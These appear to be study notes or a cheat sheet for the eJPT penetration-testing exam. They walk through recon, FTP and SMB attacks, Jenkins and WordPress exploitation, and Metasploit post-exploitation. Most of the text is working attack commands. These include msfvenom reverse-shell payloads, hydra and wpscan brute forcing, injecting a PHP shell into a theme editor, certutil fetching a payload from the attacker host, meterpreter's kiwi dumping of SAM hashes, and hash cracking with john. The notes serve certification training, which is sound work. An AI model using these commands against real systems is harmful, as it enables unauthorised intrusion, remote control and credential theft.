 
### Network Recon

nmap -sn <range> -> ping scan

*Store ips in a text file*

nmap -p- -T5 -iL <file> -vv > <file> -> paranoid scan, all ports, very verbose from a text file

nmap -p- -T5 host -vv -Pn -> dont use ping scan


### FTP

*try ftp anonymous always*

msfvenon -p windows/shell_reverse_tcp LHOST=ip LPORT=4444 -f asp > shell.asp -> reverse shell for windows

put shell.asp -> upload reverse shell via ftp to target **CAN WORK OR DONT**

### SMB

smbclient -L "\\\\<ip>\\" -> see SMB shares 

smbclient -L "\\\\<ip>\\<share>" -> connect to smb share

#### Crack SMB

- Store user names in a text file if the user share is accessible
- Use hydra to get a password using a single name or a text file with the users obtained

hydra -l <user_name> -P /usr/share/wordlists/fastrack.txt smb://<ip> -> brute force smb login (fastrack is a very good wordlist for ejpt!)

- Login as User
smbclient -L "\\\\<ip>\\<share>" -U <user_name>


#### Using PSExec (metasploit way)

- Open msfconsole
- Set exploit as psexec
use exploit/windows/smb/psexec
-set rhost to kali machine
-set smbuser <user>
-set smbpass <password>
(Can be tried using bruteforce wordlists)


### Jenkins (port 8000)

*Always try jenkins default creds in the dashboard (admin:admin, jenkins:jenkins, adminstrator:password etc)*

Create a reverse shell (https://github.com/Brzozova/reverse-shell-via-Jenkins)

**Kali machine will have no internet connection! Code needs to be copy pasted from machine to exam machine!**

- Change localhost for to kali's ip
nc -lvnp <port> -> 8044 or other defined in the payload
- run the script console

### Exploit PHP (XAMP webserver port 8080)

Start by running a content scanner like dirb


dirb http://<ip>:<port> /user/share/wordlists/dirb/big.txt -> good wordlist for this

#### Wordpress

Most probably a wordpress will be running on the server, first try to identify useful things like a login page and try default creds.


wpscan --url http//<wp_url>:<port> -e u -> enumerate users

wpscan --url http//<wp_url>:<port> -e ap -t 200 -> enumerate plugins


wpscan --url http//<wp_url>:<port>/<login_page> -U <user> -P /usr/share/wordlists/fasttrack.txt -t 200 -> brute force user login

*Another imporant piece in wordpress is identifying the theme that is running on the website as it can be used as way to get our foot into the system, for example oceanwp is known to be vulnerable to RCE from the dasboard by injecting malicious code in the css theme*

#### Getting reverse shell

Get a php reverse shell (based on the os identified previously with nmap)

For example windows - https://github.com/Dhayalanb/windows-php-reverse-shell

- Start a netcat session: nc -lnvp 9000
- In the case of oceanwp go to the theme editor and inject the shell code.
- Edit the code with the listening port and the kali ip (additionaly store the code in a php file and upload it if copy paste does not work)
- Go to the injected file via url -> http://<url>/wp-content/themes/<theme>/<file>

#### Access the Database

- Use the shell and go to the wp-config.php file and get the database configuration to access it from kali.
- From kali access mysql:
mysql -u root -H <ip> -p -> Access unprotected db, can work or dont, its a gamble.

#### Upload a reverse shell to the system

msfvenom -p windows/shell_reverse_tcp LHOST=<kali_ip> LPORT=443 -f exe > shell.exe

- Create a temp directory on the machine - mkdir temp

python3 -m http.server 80 -> start a webserver on kali to upload the payload

certutil.exe -urlcache -f http://<kali_ip>/shell.exe shell.exe -> upload shell to machine

In kali go back to metasploit multi handler

- msfconsole
- use multi/handler
- set payload windows/shell_reverse_tcp
- set lhost <kali_ip>
- set lport 443
- exploit

Transfer shell to meterpreter

- search shell_to
- use 0 
- sessions -i
- set sessions 1
- run
- sessions -i
- sessions 2
- load kiwi

#### Crack user accounts (local)

lsa_dump_sam -> dump ntlm hashes
*store them in a text file* (<user>:<hash>)

john <file> --wordlist=/usr/share/wordlists/rockyou.txt --fork=4 --format=NT -> crack the hashes (you can also use other wordlists such as fasttrack.txt)


### Web Exploits (80, 8000)

curl -v <host> -> recon web page html

#### CMS (example bolt)

Content manage system is the type of web service that is always in ejpt.

Start by exploring the webpage and try to get the CMS framework used.


Search in metasploit for an exploit (bolt example)

-msfconsole
-search bolt
-use exploit/multi/http/bolt_authenticated_rce
-show options




